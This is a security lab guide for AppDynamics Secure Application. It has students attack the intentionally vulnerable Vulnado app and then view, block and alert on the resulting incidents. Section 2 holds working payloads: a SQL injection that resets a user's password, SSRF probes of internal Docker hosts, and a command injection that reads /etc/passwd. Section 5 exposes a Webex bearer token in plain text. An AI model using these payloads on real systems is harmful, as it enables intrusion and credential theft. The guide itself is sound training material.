 Solution Configuration
######################

In this lab, we will:

- Enable the App Security Monitoring feature for your application in AppDynamics Secure Application.
- Execute penetration testing to generate attacks on the Vulnado application. 
- Assess application security issues in AppD Secure Application.
- Create security policies for real-time protection
- Create custom actions to send vulnerability incident alerts to the WebEx room.

1. Enable Application Security Monitoring
=========================================

You will need the following information provided by your instructor to complete this task:

   - AppDynamics SaaS Controller:

        - Host URL
        - AppDynamics Account
        - Username
        - Password
    
#. `Open the AppDynamics controller UI <https://cisco-cx-ps-lab.saas.appdynamics.com/controller/>`_, log in using the AppDynamics account, username and password provided by your instructor, and navigate to the :guilabel:`Security` tab to launch the AppD Secure Application UI.
#. Navigate to :guilabel:`Applications` tab in Secure App UI
#. Select the :guilabel:`check box` for your application 

    .. image:: images/applications.png
            :align: center


#. Click :guilabel:`Security Settings`, select :guilabel:`Enable` and click :guilabel:`Confirm Change` 

    .. image:: images/security-enable.png
        :align: center

2. Execute Penetration Test (pen test)
======================================

A penetration test (pen test) include the tools and technics to simulate authorized attacks against an application to find the weakness and business impacts of the application.


In this task, you will complete the following activities to generate attacks on the Vulnado application:

    - Execute SQL Injection
    - Run Server Side Request Forgery (SSRF)
    - Execute Remote Code Execution

You will need the following information during this exercise (provided by your instructor):

    - CXPM DMZ VPN:
            - VPN URL
            - Username
            - Password

    - SSH access to your application server VM
        - VM IP
        - Username
        - Password         

2.1 SQL Injection to compromise the password of an application user
-------------------------------------------------------------------

SQL injection is the ability of an attacker to execute arbitrary SQL into an insecurely created query. They might do this to attempt to gain access to the system, cause destruction by deleting rows, or list vital information that they should not have access to.

The way SQL injections are constructed is by the use of escape characters such as `'`, which allows an attacker to escape out of the intended query with their own input and execute another query directly against the database.

.. note::

    An example pseudocode for user authentication within the application is as follows:

    .. code-block:: bash

        username := user input from HTML form
        password := user input from HTML form
        hashedPassword := md5(password)

        sql := "select * from admins where username = '" + username "' and password = '" + hashedPassword + "' limit 1"
        executeQuery(sql)


In this exercise, we try to exploit the endpoint ``/login`` using a SQL injection. An example of a valid but unauthorized request looks like this:

``curl -XPOST -H 'Content-Type: application/json' -d '{"username":"rick", "password":"password"}' 'http://localhost:8080/login'``

To execute the SQL injection, perform the following activities:

#. From your laptop terminal, open an SSH connection to your Application Server VM in CXPM DMZ Lab. (Use the credentials provided by your instructor.) 
   (please refer the lab resource table to find the VM IP assigned to your pod) 

#. To gain access as the application user ``rick``, you will be able to successfully change `ricks` password to something we know: ``password`` by running the below command in the terminal:

     .. code-block:: bash

        curl -XPOST -H 'Content-Type: application/json' -d "{\"username\":\"rick'; update users set password=md5('password') where username = 'rick' --\", \"password\":\"foo\"}" 'http://localhost:8080/login'

    .. note::

        We should get an error and that's fine, as an attacker we've broken the JDBC parser and successfully changed ``ricks`` password to something we know: ``password``    

#. Now try logging in with that password we changed to, which is ``password``, run the following command in the terminal:

    .. code-block:: bash

        curl -XPOST -H 'Content-Type: application/json' -d '{"username":"rick", "password":"password"}' 'http://localhost:8080/login' | jq .


2.2 Server Side Request Forgery
-------------------------------

Server side request forgery is a vulnerability that allows attackers to see things from the point of view of their victim. For example, if a web server is available to the public and has to access resources in the private network, an SSRF would be an vulnerability that allows an attacker to see or act upon internal services only by interacting with that web server.
For example, if a web server is available to the public and has to access resources in the private network, an SSRF would be an vulnerability that allows an attacker to see or act upon internal services only by interacting with that web server.

We have an endpoint that will reach out to a website and scrape the HTML for valid links. This is a very common practice for web crawling. You can try it out by running the following link in the terminal:

    .. code-block:: bash

        curl 'http://localhost:8080/links?url=http://wikipedia.com' | jq .


This lab shows that even though you cannot access the internal site from outside, the web server can. Therefore, using a SSRF attack, you can gain valuable information from this internal site such as a list of internal email addresses.


#. Run the following command to get the internal IP address of the Docker network:

      .. code-block:: bash

             docker network inspect vulnado_default | jq -r '.[0].Containers[]|.IPv4Address'

      .. image:: images/docker-net.png
        :align: center


#. Once you have this list try to execute a SSRF attack against the endpoint ``/links``.
   Iterate through your Docker internal IP address and run the following command, using a SSRF attack, you can gain valuable information from this internal site such as a list of internal email address.

      .. code-block:: bash

            curl 'http://localhost:8080/links?url=http://your-docker-internal-ip' | jq .


    .. tip::

             Replace ``your-docker-internal-ip`` with the internal ip your docker network.


    .. image:: images/SSRF-attack-links.png
        :align: center

2.3 Remote Code Execution - RCE
-------------------------------

A remote code injection (RCE) vulnerability gives an attacker to execute remote commands and control in some regard or another of a host server.

This Vulnado application has a vulnerable endpoint that uses a Linux command line utility. Let's try to execute this endpoint that executes the cowsay program on Linux normally:

``$ curl 'http://localhost:8080/cowsay?input=I+Love+Linux!'``

It allows user input. This is a sign that it might have a RCE type of vulnerability if the input is not validated

#. Run the below command to read the details of /etc/passwd in the application server

    .. code-block:: bash
        
           curl "http://localhost:8080/cowsay?input=input%27%3B%20cat+/etc/passwd%20%23"






3. Assess Application Security Issues 
=====================================


In this lab, we will explore how to view and analyze the security incidents, affected entities and suggested remediations with the help of the Application Secure App platform.

3.1 Business Impact scores, BT Vulnerabilities, Kenna and CVSS scores 
---------------------------------------------------------------------

#. `Open the AppDynamics controller UI <https://cisco-cx-ps-lab.saas.appdynamics.com/controller/>`_, log in using the AppDynamics account, username and password provided by your instructor, and navigate to the :guilabel:`Security` tab to launch the AppD Secure Application UI.
#. Navigate to the :guilabel:`Business Transactions` tab and filter by your Application to view business transactions specifically for your application.

   .. image:: images/business-transactions.png
        :align: center
#. Click on the business transaction ``/links`` to view the vulnerabilities, Attacks and API findings associated with that business transaction.

     .. image:: images/bt-details.png
        :align: center

#. Click on ``Remote Code Execution`` vulnerability with id ``CVE-2022-22965``, it will open the vulnerability details page and help us to understand the Kenna scores, CVSS scores, recommendation details etc..

     .. image:: images/RCE-details.png
        :align: center


3.2 Analyze Attacks and Remediations 
------------------------------------

#. Navigate to the :guilabel:`Attacks` tab and filter by your Application to view the attack incidents associated with your application.

   .. image:: images/attacks.png
        :align: center

#. Click on the Attack ID to open the details, which will show the detals like `affected node`, `event that triggered this incident`

    .. image:: images/attack-details.png
        :align: center


#. Expand the :guilabel:`Stack Trace` to view the line of code that affects the attack 
 
    .. image:: images/stack-trace.png
            :align: center



4. Create Security Policies
===========================

Runtime policies define what runtime behaviors to ignore, detect, or block. The runtime events identify all the attacks and vulnerabilities and the action is taken based on the defined runtime policy

To create a policy for an attack or vulnerability at runtime, perform the following steps:

#. Click the gear icon that displayes in the right corner of the Secure Application UI.

    .. image:: images/policy-menu.png
                    :width: 300
                    :align: center


 
#. Click :guilabel:`Policies > Create New Policy`
    
#. Select the following details:

     - **Name**: Command Execution
     - **Application**: your-application-name
     - **Tier**: your-application-tier
     - **Default Action**: Detect
     - **Rules**: click + Rule and configure the below details
        If ``stack trace`` ``contains`` ``org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:834)`` then ``Block``
     - **Enable Policy**: Yes

#. Click :guilabel:`Save`
               

 .. image:: images/policy.png
                    :align: center



5. Create Custom Alert Actions 
=================================

In this lab we focus on the Alerts feature using Cisco Secure Application. The Alerts tab allows you to view, and configure alerts. You can set up Actions to get alerted when new vulnerabilities are detected.

To create an Action:

#. Click the gear icon that displayes in the right corner of the Secure Application UI.

#. Click :guilabel:`Alerts`

    .. image:: images/alert-menu.png
                :width: 300
                :align: center

#. Click :guilabel:`+ Add Action`
#. Enter the Action Name 
    - webexroom-integration-N (replace the N with your pod number)

.. note:: (Do not use special characters in the Action Name.)

#. Choose HTTP as the Action Type and click :guilabel:`Next`
    
#. Enter following Action Details:

        - **Method Type**: POST
        - **Encoding**: UTF-8
        - **Raw URL**: https://webexapis.com/v1/messages
    

#. Click :guilabel:`Next`
    - **Select None or Basic as the Authentication Type**

#. Click :guilabel:`Next`
    
#. Specify following custom headers for the request:
      - **Authorization**: Bearer NjNlMjVjMzUtZmFlMi00MTZiLWExYzgtNjY5YzgzZWRlZjBjZDQ1NjMxYjItODAy_PF84_1eb65fdf-9643-417f-9974-ad72cae0e10f


#. Add the payload. The payload must be in JSON format. You can copy and paste the below payload into the Editor.

    .. code-block:: bash

        {
            "roomId": "Y2lzY29zcGFyazovL3VzL1JPT00vMGRlNWU2ZDAtYzI3Yi0xMWVkLTkwOTUtMWZjODAwZjk1NTMy",
        "html" : "<p>Vulnerability has been detected as follows: <br> $vulnerability.id <br>$vulnerability.title <br>$vulnerability.application<br> KennaScore: $vulnerability.kenna.score </p>",
        "text": "Vulnerability has been detected."

        }

    .. image:: images/payload.png
                    :align: center

#. Click :guilabel:`Next`

#. Click :guilabel:`cURL` to copy the request to test

    .. image:: images/review-action.png
                    :align: center

#. Click :guilabel:`Save`.
    
#. You can navigate to :guilabel:`Rules` tab, a new rule associated with the your action will be automatically created.



.. sectionauthor:: Ansood Anandan <anananda@cisco.com>

